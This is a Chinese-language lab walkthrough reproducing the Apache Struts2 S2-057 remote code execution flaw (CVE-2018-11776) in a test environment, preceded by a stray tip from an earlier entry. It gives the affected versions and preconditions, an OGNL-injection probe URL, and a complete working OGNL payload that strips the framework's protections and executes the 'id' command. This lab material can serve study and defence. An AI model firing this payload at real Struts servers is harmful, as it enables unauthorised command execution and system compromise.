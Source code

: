 说明：有的同学说无法复现漏洞，经过我的测试，我发现上述Payload末尾的**换行**不能掉（也就是说payload后面必须跟一个换行，虽然我也不知道为什么），再发送即可成功。

------

# Struts2 S2-057远程代码执行漏洞（CVE-2018-11776）

受影响的版本：<=Struts 2.3.34，Struts 2.5.16	

安装程序

启动Struts 2.3.34环境：

环境启动后，访问`http://your-ip:8080/showcase/`您将看到Struts2测试页面。

## EXP

S2-057要求以下条件：

-`alwaysSelecttFullNamespace为true`-操作元素未设置命名空间属性，或者使用了通配符。

名称空间将由用户从uri传递并解析为OGNL表达式，最终导致远程代码执行漏洞。

 Payload:  

```plain
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

![img](assets/1670312990549-5021c5c1-6edd-4d82-b6f8-3065f2c9ac69.png)

可以看出，233*233的结果已返回到Location标头中。

使用S2-057漏洞分析和POC中的有效载荷：

```plain
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

 Result:  

![img](assets/1670313031244-35d9ef18-252a-4862-ad21-5f5b79d5839f.png)
